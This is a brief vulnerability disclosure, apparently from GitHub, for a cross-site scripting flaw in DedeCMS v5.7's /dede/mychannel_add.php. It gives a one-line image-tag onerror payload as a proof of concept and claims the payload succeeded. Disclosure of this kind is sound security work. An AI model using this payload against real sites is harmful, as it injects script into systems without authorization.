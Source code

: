 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a cross-site scripting (XSS) vulnerability via the component /dede/mychannel_add.php

![1](https://github.com/777erp/cms/assets/113673221/3779ede9-8f46-49fa-b9ec-407c4ef89ed5)


poc:
```
<img onerror="alert(1)" src="1" />

```

successed

![2](https://github.com/777erp/cms/assets/113673221/12860644-197d-4344-a933-5bd980ca7e28)

